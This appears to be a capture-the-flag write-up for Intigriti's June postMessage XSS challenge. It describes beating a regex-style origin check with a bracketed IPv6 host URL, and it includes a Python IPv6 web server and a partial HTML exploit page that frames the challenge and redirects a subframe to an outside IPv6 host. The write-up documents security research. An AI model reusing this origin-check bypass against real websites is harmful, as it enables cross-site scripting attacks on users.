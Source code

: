 * In order to bypass the `.search()` function in javascript. We would need a regex like string as origin.
  * Initially I exposed something like a ngrok url to do this as it would contain certain HEX characters. Testing this with separate JS console was not a success
  * I knew about it way after the challenge, so twitter and writeup mentioned about ipv6. Accessing IPV6 urls via http looks like http://[<ipv6>]//, looking like the [<character set>] accomplishing the regex pattern. We also need to ensure the ipv6 has atleast one char of the challenge-june.intigriti.io

* To access via Ipv6 we need to ensure we have a server exposing at ipv6 with the exploit page containing the iframe
  - NOTE 1: Do not use link local ipv6. Ensure you host proper html page reachable via ipv6. Ensure you use the default port 80 rather than custom ports as the regex search did not work with :8000 port mentions
  - NOTE 2: Instead of specifically accessing this page, add as index.html so python HTTPServer exposes this page by default instead of mentioning the page path in url. So save as `index.html`

```
# My network is not setup for ipv6 so currently all it binds to is fe80 link local address. Using a hosted server. 
# Using ngrok helps, the url by default has hex to what we want, and also it can be accessed via a ipv6 address.
# Make index.html with iframe and the exploit

# Ref: https://stackoverflow.com/questions/25817848/python-3-does-http-server-support-ipv6
import socket
from BaseHTTPServer import HTTPServer
from SimpleHTTPServer import SimpleHTTPRequestHandler

class MyHandler(SimpleHTTPRequestHandler):
    def do_GET(self):
      return SimpleHTTPRequestHandler.do_GET(self)

class HTTPServerV6(HTTPServer):
    address_family = socket.AF_INET6

def main():
  server = HTTPServerV6(('::', 80), MyHandler)
  server.serve_forever()

if __name__ == '__main__':
  main()
```

* putting up some console.logs and checking the execution,
```
<html>
  <head>Post Message XSS Challenge - Intigriti June</head>
  <body>
    <br>
    <iframe id="xss_frame" width=600 height=800 ></iframe>
    <script>

      console.log(location.search);

      let frame = document.getElementById("xss_frame");
      frame.src = "http://challenge-june.intigriti.io/#xss"
        
      frame.onload = function() {
        frame.contentWindow.frames[0].location = "http://[2604:a880:2:d1::3c:b050]"
        }
               
      console.log(frame);
      console.log("Done!");
    </script>
```